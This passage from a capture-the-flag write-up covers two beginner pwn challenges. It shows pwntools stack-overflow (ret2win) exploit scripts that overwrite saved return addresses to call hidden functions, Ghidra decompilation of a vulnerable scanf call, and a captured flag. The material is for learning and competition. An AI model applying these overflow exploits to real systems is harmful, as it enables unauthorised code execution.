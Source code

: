 ```python
payload += b"B" * RBP_SIZE
payload += p64(SECRET_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```
 `A*16` fills the buffer. `B*8` overwrites RBP. `p64(0x4011b6)` overwrites the saved return address with the address of `secret_dough_recipe()`. When `vulnerable_dough_recipe()` returns, the instruction pointer (RIP) jumps to `secret_dough_recipe()` and returns the flag.
 
```shell
python3 solve.py  
[+] Opening connection to dat-overflow-dough-eda41b56b6b7081d.challs.brunnerne.xyz on port 443: Done  
[*] Switching to interactive mode  
  
brunner{b1n4ry_eXpLoiTatioN_iS_CooL}  
[*] Got EOF while reading in interactive
```

___

## Othello Villains
**Category:** Pwn

**Difficulty:** Easy  
**Author:** olexmeister

The Othello villains stole our sacred Brunner recipe! Luckily, they are unable to write secure code, please retrieve the recipe from their (in)secure vault!

I open the binary in ghidra. Here is the main fucntion:
```
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Othello villains secret server. Do you know the password??\n");
  fflush(stdout);
  __isoc99_scanf(&DAT_00402044,local_28);
  return 0;
}
```
`local_28[32]`  is a 32 byte stack buffer. `__isoc99_scanf(&DAT_00402044, local_28);` reads user input. 

I use `pwntools` to make the exploit easier and test the exploit locally like this: 
```python
from pwn import *

binary = './othelloserver'

elf = ELF(binary)
win_addr = elf.symbols['win']

# 32 buffer + 8 RBP
offset = 40
payload = b'A' * offset + p64(win_addr)

p = process(binary)
p.sendline(payload)
p.interactive()
```
